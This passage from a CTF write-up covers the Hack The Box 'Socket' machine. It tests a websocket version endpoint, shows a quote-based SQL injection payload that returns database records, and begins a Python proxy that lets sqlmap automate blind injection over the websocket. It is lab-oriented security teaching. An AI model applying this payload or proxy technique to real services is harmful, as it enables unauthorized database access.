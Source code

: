 Saving the script as `ws_cmd.py` and installing the websockets library with `pip install websockets` I now I have a more resilient CLI client:

```bash
┌──(nickvd㉿kali)-[~/Boxes/Socket/scripts]
└─$ python ws_cmd.py                                                                                                                                                                          130 ⨯
> 1
< {"message": "Invalid version!"}
> hello
< {"message": "Invalid version!"}
> hello'
< {"message": "Invalid version!"}
> hello"
received 1011 (unexpected error); then sent 1011 (unexpected error)
<
```

When I send a double quote I notice that the server crashes, which could indicate that I ended up creating an invalid SQL query. To confirm I try a SQL injection payload:

```bash
> hello" or "" = "
< {"message": {"id": 2, "version": "0.0.2", "released_date": "26/09/2022", "downloads": 720}}
```

And I get the version back. This implies that the endpoint is vulnerable to SQLi and the query probably looks something like this.

```sql
select * from versions where version = "[version]";
```

### Using SQLMap

Because of the weird websocket implementation, I can’t use `sqlmap` directly as I did in [Soccer.](https://nvd.codes/post/hack-the-box-soccer/) While reading online, I found [this](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) article describing how to do a blind SQLi over a websocket connection. While `sqlmap` nowadays natively supports websocket connections, it still has some limitations. But in this case, I can use the same idea to abstract the weird web socket implementation behind a simple `GET` request.

The idea is that I’ll spin up a webserver on [localhost](http://localhost) that exposes a `GET` endpoint with a vulnerable query parameter that will then correctly forward this request to the websocket endpoint. All I have to do then is point `sqlmap` to my local proxy. I modified the script slightly to use the `json` module instead manually wrangling JSON payloads and I cleaned up a few more related to error handling to make debugging easier. My server looked something like this

```python
import json
import sys
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websockets.sync.client import connect

ws_server = "ws://ws.qreader.htb:5789/version"

def send_ws(payload):
    message = {"version": unquote(payload)}
    data = json.dumps(message)
    try:
        with connect(ws_server) as websocket:
            websocket.send(data)
            message = websocket.recv()
    except Exception as ex:
        print(ex, file=sys.stderr)
        return ""
```